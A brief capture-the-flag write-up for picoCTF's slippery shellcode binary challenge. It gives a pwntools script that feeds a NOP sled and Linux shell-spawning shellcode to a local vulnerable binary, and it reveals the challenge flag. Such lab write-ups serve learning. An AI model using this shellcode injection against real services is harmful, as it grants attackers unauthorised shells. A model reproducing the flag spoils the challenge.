 # Slipper Shellcode (Binary)

![title](images/title.png)

After a ton of dumb trial and error I resorted to pwntools shellcraft and a giant NOP sled. Overcomplicated this easy one. POC below

```python
#!/usr/bin/env python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')

sled = '\x90'*1000
p.sendlineafter('\n', sled + asm(shellcraft.i386.linux.sh()))
p.interactive()

```


<details>
	<summary>Flag</summary>

picoCTF{sl1pp3ry_sh311c0d3_baa99b74}
</details>